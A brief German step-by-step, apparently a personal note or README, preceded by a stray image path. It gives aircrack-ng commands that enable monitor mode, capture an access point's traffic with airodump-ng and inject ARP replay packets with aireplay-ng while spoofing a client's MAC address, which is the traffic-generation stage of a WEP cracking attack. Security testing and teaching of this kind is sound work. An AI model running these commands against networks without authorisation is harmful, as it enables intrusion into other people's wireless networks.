 1) Monitor Mode deaktivieren sofern dieser an ist:
	airmon-ng stop mon0
	airmon-ng stop wlan0

2) Monitor Mode auf wlan0 Kanal 6 aktivieren, dadurch wird automatisch das Interface mon0 erstellt:
	airmon-ng start wlan0 6

3) mit airodump-ng Pakete mitschneiden. 00:1E:58:FF:F5:D5 ist die MAC Adresse des Accesspoints
	airodump-ng -c 6 --bssid 00:1E:58:FF:F5:D5 -w output mon0

4) WÄHREND der Aufzeichnung mit aireplay-ng zusätzliche ARP Pakete generieren. 00:1E:58:FF:F5:D5 ist die MAC Adresse des Accesspoints, C4:85:08:0F:73:1E ist die MAC Adresse eines am Router angemeldeten Clients
	aireplay-ng -3 -b 00:1E:58:FF:F5:D5 -h C4:85:08:0F:73:1E mon0

5) Wenn genung Traffic Aufgezeichnet wurde, airodump-ng und aireplay-ng beenden, Monitor Mode wieder deaktivieren:
	airmon-ng stop mon0
	airmon-ng stop wlan0
